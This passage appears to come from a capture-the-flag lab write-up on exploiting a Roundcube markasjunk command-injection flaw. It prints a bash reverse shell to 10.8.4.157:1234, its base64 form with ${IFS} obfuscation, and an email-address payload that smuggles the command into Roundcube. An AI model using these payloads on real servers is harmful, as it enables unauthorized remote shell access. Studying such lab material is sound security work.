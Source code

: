 While googling, we found that this might be vulnerable to the [SSD Advisory – Roundcube markasjunk RCE](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/).

<img src="attachments/72f0198b920d63113e7d4fe9d1005610.png" />

Moving an email to the junk executed the payload.

<img src="attachments/b81221a3e9774cd002de291785a92f27.png" />

We crafted a reverse shell and followed the same process.

```bash
//raw payload
sh -i >& /dev/tcp/10.8.4.157/1234 0>&1

//Base64 encoded with Spaces replaced
echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuOC40LjE1Ny8xMjM0IDA+JjEK|base64${IFS}-d|bash

//Final Email payload
peter.turner&echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuOC40LjE1Ny8xMjM0IDA+JjEK|base64${IFS}-d|bash&@hybrid.vl
```
